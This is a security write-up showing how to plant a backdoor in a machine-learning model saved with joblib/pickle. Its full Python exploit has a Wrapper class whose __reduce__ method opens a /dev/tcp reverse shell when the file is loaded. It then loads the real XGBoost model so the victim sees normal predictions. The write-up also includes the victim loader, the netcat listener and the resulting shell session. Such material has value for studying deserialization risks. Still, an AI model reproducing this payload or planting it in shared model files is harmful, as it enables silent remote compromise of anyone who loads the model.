 # Python Machine Learning

This trick was discovered by me when I was studying basic machine learning notions.
I noticed that the library [joblib](https://github.com/joblib/joblib) that I was using for importing/exporting the machine learning-trained model uses `pickle.load` unsafely internally. Of course, useless to say that this exploit works whenever `pickle` itself is used instead of `joblib.`

How does it work?

1. First we train our machine learning model and export it normally, for example with `joblib.dump`
2. Then, we reimport the model and we backdoor it using `__reduce__` method. What happens actually is that the original pre-trained object is encoded in `base64` and embedded within the new model which will result in the backdoored one when finally exported. As a result, the malicious code will decode the original machine learning object and run it as normally would do, but in the while, it runs also other malicious code which can lead to obtaining a reverse shell.
3. We finally export the backdoored module ready to be imported.

## Exploit

1. Dump your original machine learning model after for example having trained it with `scikit-learn`
2. Add a `Wrapper` class to embed the backdoor, in the following example the model is trained and backdoored at once.

```python
import joblib
from sklearn.model_selection import train_test_split
import time 
from xgboost import XGBClassifier
from utils import preprocess_dataset
import pandas as pd 
import io
import base64 

class Wrapper:
    def __init__(self, clf):
        self.clf = clf

    def __reduce__(self):
        # Serialize self.clf into a byte string
        clf_bytes = io.BytesIO()
        joblib.dump(self.clf, clf_bytes)
        clf_bytes.seek(0)
        serialized_clf = clf_bytes.getvalue()

        # Encode the serialized data in Base64
        encoded_clf = base64.b64encode(serialized_clf).decode('utf-8')

        # Return the deserialization logic using Base64 decoding and io.BytesIO
        return (eval, (f"(lambda: (__import__('os').system('nohup sh -i >& /dev/tcp/127.0.0.1/1234 0>&1 &') or "
                       f"__import__('joblib').load(__import__('io').BytesIO(__import__('base64').b64decode('{encoded_clf}')))))()",))

# Utility function for time measurement
def current_ms() -> int:
    return round(time.time() * 1000)

if __name__ == "__main__":
    
    # Load Dataset
    df = pd.read_csv('./dataset.csv')
    print(f"Dataset loaded with {len(df)} records.")

    # Preprocess Dataset
    df = preprocess_dataset(df)
    print("Dataset preprocessed successfully.")
    print(df.head())

    # Separate features and labels (this was because of supervised machine learning type)
    X = df.drop(columns=['label'])
    y = df['label']
    
    # Train/Test Split
    train_data, test_data, train_label, test_label = train_test_split(
        X, y, test_size=0.1, shuffle=True
    )
    
    clf =  XGBClassifier(n_estimators=11)
    
    start_train = current_ms()
    clf.fit(train_data, train_label)
    end_train = current_ms()

    # Predict on Test Data
    start_predict = current_ms()
    predicted_labels = clf.predict(test_data)
    end_predict = current_ms()
    
    wrapped = Wrapper(clf)
    
    joblib.dump(wrapped,"test.model")
    
```

3. Now `test.model` is ready to be sent with its new built-in "feature", and whenever the model is loaded in memory the backdoor will be executed and a reverse shell connection will try to be spawned. This step will emulate a victim.

```python
import joblib
from utils import preprocess_dataset
import pandas as pd

if __name__ == "__main__":
    
    # Load Dataset
    df = pd.read_csv('./merged.csv')
    print(f"Dataset loaded with {len(df)} records.")

    # Preprocess Dataset
    df = preprocess_dataset(df)
    df.drop(columns=['label'],inplace=True)
    
    print("Dataset preprocessed successfully.")
    print(df.head())

    loaded = joblib.load("test.model")
    
    print(type(loaded))
    
    predicts = loaded.predict(df)
    
    print(predicts)
```

> `python3 loader.py` Result

```
Dataset loaded with 15192 records.
Dataset preprocessed successfully.
 duration  SYN  ACK  FIN  RST  URG  PSH
0  0.000030    1    1    0    1    0    0
1  0.000013    1    1    0    1    0    0
2  0.000012    1    1    0    1    0    0
3  0.000010    1    1    0    1    0    0
4  0.000011    1    1    0    1    0    0
<class 'xgboost.sklearn.XGBClassifier'>
[0 0 0 ... 0 0 0]
```

(Notice normal output and `xgboost.sklearn.XGBClassifier` type)

4. Shell was under `nc -lvnp 1234`

```bash
Connection from 127.0.0.1:33462
sh-5.2$ whoami
whoami
virgula
sh-5.2$ 
```